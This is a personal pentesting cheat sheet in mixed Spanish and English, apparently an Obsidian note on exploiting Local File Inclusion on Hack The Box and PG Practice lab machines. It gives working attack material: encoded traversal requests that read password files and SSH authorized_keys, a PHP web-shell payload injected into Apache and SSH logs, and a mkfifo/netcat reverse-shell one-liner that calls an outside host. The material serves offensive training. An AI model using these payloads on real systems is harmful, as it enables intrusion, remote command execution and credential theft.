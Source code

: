 ## DESCRIPTION

**Local File Inclusion (LFI):** The sever loads a local file.

Diferencias entre LFI y Directory Path traversal: el LFI no solo lee sino también ejecuta en el servidor.

Before we examine _Local File Inclusion_ (LFI), let's take a moment to explore the differences between File Inclusion and Directory Traversal. These two concepts often get mixed up by penetration testers and security professionals. If we confuse the type of vulnerability we find, we may miss an opportunity to obtain code execution.

As covered in the last Learning Unit, we can use directory traversal vulnerabilities to obtain the contents of a file outside of the web server's web root. _File inclusion_ vulnerabilities allow us to "include" a file in the application's running code. This means we can use file inclusion vulnerabilities to execute local or remote files, while directory traversal only allows us to read the contents of a file. Since we can include files in the application's running code with file inclusion vulnerabilities, we can also display the file contents of non-executable files. For example, if we leverage a directory traversal vulnerability in a PHP web application and specify the file **admin.php**, the source code of the PHP file will be displayed. On the other hand, when dealing with a file inclusion vulnerability, the **admin.php** file will be executed instead

#### Mas información
* https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers-and-protocols
* https://0xdf.gitlab.io/2018/09/08/htb-poison.html#reverse-shell

## EXPLOITATION

**!!NOTA IMPORTANTE!!** Para que en algunos casos no recorte la URL con curl se pueede usar el parámetro  `curl --path-as-is` 


**!!NOTA IMPORTANTE!!** Aplicar URL encoding en los ../:
* *`curl http://192.168.122.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords` 
* ` http://192.168.166.245/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/anita/.ssh/authorized_keys`
Mas filtros: https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses

### OPTION 1: LOG POISONING

If the web is vulnerbale to LFI, then we can try to exploit “Log Poisoning”. Basically it is to put a Reverse Shell and visualize it on the web through the logs of some service (usually APACHE or SSH).

1. Probamos a ver si podemos acceder a algun fichero de logs. Ficheros interesantes de LFI -> https://ed4m4s.blog/tools/local-file-inclusion

* Algunos de los interesantes en LINUX pueden ser:

```
RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access_log
FreeBSD Apache access log file location – /var/log/httpd-access.log
Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log

SSH LOG /var/log/auth.log
```

* Algunos de los interesantes en LINUX pueden ser:

```
# XAMPP
C:/xampp/apache/conf/httpd.conf
C:/xampp/security/webdav.htpasswd
C:/xampp/apache/logs/access.log
C:/xampp/apache/logs/error.log
C:/xampp/tomcat/conf/web.xml
C:/xampp/tomcat/conf/tomcat-users.xml
C:/xampp/webalizer/webalizer.conf
C:/xampp/webalizer/webdav.txt
C:/xampp/apache/bin/php.ini
C:/xampp/apache/conf/httpd.conf
```

2. Ejecución de comandos: APACHE LOG: Añadimos en el User-Agent

```
<?php system($_GET['cmd']); ?>  →  Check usisng http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=ls (Its important to use ‘&’ if ‘?’ is alredy in used)
```

![[Pasted image 20230320170339.png]]

Ejemplo xampp Windows `http://192.168.227.53:8080/site/index.php?page=../../../../../../..//xampp/apache/logs/access.log&cmd=dir`

![[Pasted image 20230320170023.png]]

3. Creamos una reverse shell [[REVERSE SHELLS]]y la tranferimos [[TRANSFERRING FILES]]
-------------------------------------------------------------------------
4. SSH LOG:

```
 ssh '<?php system($_GET['cmd']); ?>'@10.10.10.84 
```

5. Creamos una reverse shell [[REVERSE SHELLS]]y la tranferimos [[TRANSFERRING FILES]]

### OPTION 2: LFI + SMB
1. Encontramos un LFI

2. Subimos la shell usando SMB o cualquier forma de subida (ftp, etc) y la llamamos desde la URL

![[Pasted image 20230320170718.png]]

![[Pasted image 20230320170724.png]]


3. En linuz podemos intentar ejecutar del tiron esta shell interactiva con netcat

```
https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/0xdf&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.7 443 >/tmp/f
```


### OPTION 3: ENCONTRAR CLAVES PRIVADA SSH

1. Puedes buscar el fichero `authorized_keys`

```
http://192.168.166.245/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/anita/.ssh/authorized_keys
```

2. Busca la clave correspondiente: id_rsa, id_ecdsa, etc
![[Pasted image 20230425121925.png]]

3. [[SSH (22)]]
## MACHINES

* Hack The Box: Poison, Friendzone
* PG Practice: Slort

